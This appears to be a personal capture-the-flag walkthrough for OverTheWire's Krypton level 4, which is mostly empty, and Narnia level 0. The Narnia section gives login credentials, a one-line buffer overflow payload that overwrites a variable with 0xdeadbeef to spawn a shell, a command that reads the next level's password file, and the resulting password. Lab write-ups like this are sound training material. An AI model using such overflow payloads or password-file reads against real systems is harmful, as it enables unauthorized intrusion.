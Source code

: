 ## Level 4
CMD:
```bash
ssh krypton4@krypton.labs.overthewire.org -p 2231
```
Passowrd:
```bash
BRUTE
```
Solution:
```bash
cd /krypton/krypton4
ls

```
```python3

```
```bash

```
Output:
```bash

```
**Password: **


# Narnia
## Level 0
CMD:
```bash
ssh narnia0@narnia.labs.overthewire.org -p 2226
```
Passowrd:
```bash
narnia0
```
Solution:
```bash
cd /narnia
ls
./narnia0
```
```bash
A
```
```bash
cat narnia0.c
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde")'; cat) | ./narnia0
```
Now Your on the Terminal of narnia1
```bash
whoami
cat /etc/narnia_pass/narnia1
```
Output:
```bash
WDcYUTG5ul
```
**Password: WDcYUTG5ul**
